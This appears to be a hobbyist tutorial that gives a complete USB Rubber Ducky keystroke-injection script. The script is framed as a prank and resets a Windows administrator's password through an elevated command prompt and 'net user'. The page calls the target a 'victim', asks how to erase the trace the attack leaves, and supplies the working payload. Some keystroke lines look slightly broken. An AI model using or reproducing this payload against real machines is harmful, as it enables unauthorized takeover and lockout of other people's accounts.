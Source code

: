Note: This hack works only if The user is signed in as administrator.

**Windows Prank:**

What the Duck here does, is that it opens up an Administrative command prompt, copies the user-name of the administrator using the command 
_echo %username% |clip_ and then hits enter.
Flawless as this attack maybe, it still leaves a trace as we copy the username. Let me know if any of you guys know how to "uncopy" i.e. remove this trace from the computer. Maybe some registry editing?? That, I don't know. Anyways, once the duck copies the username, it types out _net user *_

Now it moves one space back and then does SHIFT+INSERT, doing which pastes the copied username and also hits enter for you.

Now it types out whatever pass you want twice, hitting enter between the two times it types out the new pass.

Finally using exit command, it closes the command prompt. That is pretty much it. Have fun pranking your friends real hard.

The ducky code:(replace the word "_pass_" with the password you want. Just remember it, incase your friend finds out it was you!!)

REM Adjust the delays according to how slow or fast your victim's computer is.

DELAY 200

GUI r

DELAY 200

STRING cmd

DELAY 200

CTRL SHIFT ENTER

DELAY 200

STRING ALT y

DELAY 200

STRING echo %username% |clip

DELAY 200

STRING net user *

DELAY 200

LEFTARROW

DELAY 200

SHIFT INSERT

DELAY 200

STRING pass

DELAY 200

STRING pass

DELAY 200

STRING exit

DELAY 200

ENTER

REM Execution Complete!!
